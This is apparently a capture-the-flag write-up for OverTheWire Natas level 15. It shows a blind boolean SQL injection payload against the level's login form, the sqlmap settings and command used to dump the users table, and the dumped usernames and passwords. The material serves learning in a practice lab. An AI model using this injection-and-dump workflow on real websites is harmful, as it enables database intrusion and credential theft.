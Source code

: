 Challenge page is <a href="">HERE</a>.

<<CHALLENGE_CONTENT
Level 15

Username: natas15
URL:      http://natas15.natas.labs.overthewire.org

CHALLENGE_CONTENT

Password for this level (from last level)
	- username: natas15
	- password: m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV

Comment by me:
	- There is a vulnerable for SQL injection, but there is no way to display the result.
	- Tried SELECT .. INTO OUTFILE , it does not work. It seems the database prevents this.
	- Tried seperate command with semi-colon(';') but does not seem to work
	- Only way to try is to blind injection and see if result back as true/false

	Try:
		" or (select count(*) from users)=4 #--  >>>>> total users = 4
	- It is quite tiresome to enumerate manually, so I use SQLMap to handle this.
	- SQLMap config file is the file 'sqlmap.conf'
		- url = http://natas15.natas.labs.overthewire.org/index.php
		- data = username=a
		- filter on the string 'exists' as correct result for boolean-based sql
		- change risk=3 (to enable Boolean-based with OR)
		- change level=3 (to get sqlmap tries harder, to get that this is a vulnerability)
		- aType, aCred is set for HTTP Basic Authentication
		- testParameter = username

	- To run for dumping all data in table 'users'
		/path_to_sqlmap/sqlmap.py -c ./sqlmap.conf -T users --dump

RESULT (From SQLMap)
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| natas16  | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L |
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| alice    | hROtsfM734                       |
+----------+----------------------------------+
